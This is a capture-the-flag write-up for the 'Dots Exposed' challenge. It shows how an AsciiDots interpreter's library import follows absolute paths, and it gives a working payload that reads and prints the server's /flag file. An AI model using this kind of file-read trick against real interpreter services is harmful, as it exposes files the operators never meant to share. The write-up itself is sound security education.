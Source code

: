 # Dots Exposed

**Category**: misc \
**Solves**: 33 \
**Points**: 243 \
**Author**: geolado

Server: https://dots.exposed

## Overview

No code provided at all, just this site:

![ss](ss.png)

After some googling I found this: https://github.com/aaronjanse/asciidots

Turns out it's some weird esolang that's based on ASCII art. Let's try running this:
```dots
.-$"Hello, World!"
```

![h](h.png)

So we can assume that the server is running an AsciiDots interpreter, and the
goal is probably to read some flag file on the server.

## Solution

After reading through the language spec (it's actually a pretty cool esolang),
there doesn't seem to be any obvious way to perform IO (besides to `stdout` and
`stdin`). But it might be possible to abuse library imports:

> Using Libraries
>
> A library can be imported by starting a line with `%!`, followed with the file
> name, followed with a single space and then the character that the library
> defines.

Let's look at the source code:

```python
def _get_path_of_lib_file(self, filename):
    dir_paths_to_try = [
        self.program_dir,
        os.path.join(os.path.dirname(os.path.realpath(__file__)), 'libs'),
        os.path.join(os.path.dirname(os.path.dirname(os.path.realpath(__file__))), 'libs'),
    ]

    for dir_path in dir_paths_to_try:
        path = os.path.join(dir_path, filename)  # Vulnerable to directory traversal
        if os.path.isfile(path):
            return path

    raise RuntimeError('Native library "{}" cannot be found'.format(filename))
```

The interpreter checks for files in a pre-defined set of library directories,
but we can easily load any file by using an absolute path.

However, library files need to conform to the AsciiDots syntax. Or do they? I
tried importing a file that contained nothing but `CTF-BR{test_flag}` to see
what would happen:

```dots
%!/flag a
```

There are no errors, but nothing really happens either. But if I try invoking
the library with `.-a`, it throws an exception:

```
RuntimeError: Warp "a" has no destination
```

Let's look at the source code again:

```python
def _import_lib_file_with_warp_id(self, char_obj_array, filename, warp_id, is_singleton):
    path = self._get_path_of_lib_file(filename)

    with open(path, 'r') as lib_file:
        lib_code = lib_file.read()

    lib_char_obj_array = self.map_from_raw(lib_code)

    # ...

    char_obj_array.extend(lib_char_obj_array)  # This is important
```

The function will try to parse it, but none of will really do anything except
the last line:

```python
char_obj_array.extend(lib_char_obj_array)
```

This `char_obj_array` is set to `self.world.map`, which is just a 2D list
containing a "map" of the world. For example, given this program:

```
/-&
|
\-\ /-\
  | | |
/-/ | \-\
\---/   |
        |
        \-.

/->--
| |
\-/
```

The map will be this (ugly but you get the idea):

```python
[
  ['/', '-', '&']
  ['|']
  ['\\', '-', '\\', ' ', '/', '-', '\\']
  [' ', ' ', '|', ' ', '|', ' ', '|']
  ['/', '-', '/', ' ', '|', ' ', '\\', '-', '\\']
  ['\\', '-', '-', '-', '/', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '\\', '-', '.']
  []
  ['/', '-', '>', '-', '-']
  ['|', ' ', '|']
  ['\\', '-', '/']
]
```

So when we import a library, it will literally just append the file contents to
the end of the map.

Example program:

```dots
%!flag a

.-a
```

Map:
```python
[
  ['%', '!', 'f', 'l', 'a', 'g', ' ', 'a']
  []
  ['.', '-', 'a']
  ['C', 'T', 'F', '-', 'B', 'R', '{', 'f', 'a', 'k', 'e', '_', 'f', 'l', 'a', 'g', '}']
]
```

We need `a` to be in the map (aside from the line where it's imported) in order
for the library to actually be loaded. To prevent the `Warp "a" has no
destination` error, we can just ... never invoke it by never letting a dot
touch it:

```dots
%!flag a

a
```

So now that we have the flag in the map, how do we exfiltrate it? The answer is pretty simple actually:

```dots
%!flag a

a

.................
|||||||||||||||||
$$$$$$$$$$$$$$$$$
'''''''''''''''''
CTF-BR{fake_flag}  `` This will be appended when the library loads
```

Using single quotes ensures that the character is printed immediately, so even
if the quote is unclosed, the character will still be printed.

Final payload (and make sure there's no newline at the end of the file):

```dots
%!/flag a

a

..................................................
||||||||||||||||||||||||||||||||||||||||||||||||||
$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
''''''''''''''''''''''''''''''''''''''''''''''''''
```

![f](f.png)

Such a cool challenge 😍
